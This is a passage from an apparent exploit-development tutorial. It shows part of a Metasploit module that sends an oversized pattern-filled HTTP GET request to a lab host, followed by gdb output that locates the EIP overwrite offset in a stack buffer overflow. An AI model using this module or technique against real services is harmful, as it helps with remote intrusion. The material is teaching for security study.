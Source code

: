       'Privileged'     => false
      ))

      register_options(
      [
              Opt::RHOST("192.168.79.132"),
              Opt::RPORT(20001),
      ], self.class)
   end

   def exploit
    # Open the TCP connection
    connect

    # Create the payload
    filename = Rex::Text.pattern_create(500)
    sploit = "GET #{filename} HTTP/1.1\r\n" + Rex::Text.pattern_create(200)

    # Send the payload
    sock.put(sploit)

    handler
    disconnect
   end
end
{% endhighlight %}

The above module will send two Metasploit patterns. The `pattern_find` command will detail where these patterns are in memory, register that hold part of the pattern, and registers that points to part of a pattern. This output will display what registers are under attacker control.

_Note: The_ `pattern_find` _and_ `pattern_offset` _are custom commands which can be found [here](http://github.com/philwantsfish/gdb_commands)_

{% highlight bash %}
(gdb) c
Continuing.
[New process 23279]

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 23279]
0x65413665 in ?? ()
(gdb) pattern_offset eip
139
(gdb) pattern_find
| Location   | Length | Region
| 0xbff96b31 | 500    | [stack]
| 0xbff96dd9 | 200    | [stack]
| Pointer    | 143    | esp   
| Register   | 135    | ebp   
| Pointer    | 0      | esi   
| Register   | 139    | eip   
(gdb) i r
eax            0x1  1
ecx            0xb76788d0 -1217951536
edx            0xbff96d25 -1074172635
ebx            0xb77f0ff4 -1216409612
esp            0xbff96bc0 0xbff96bc0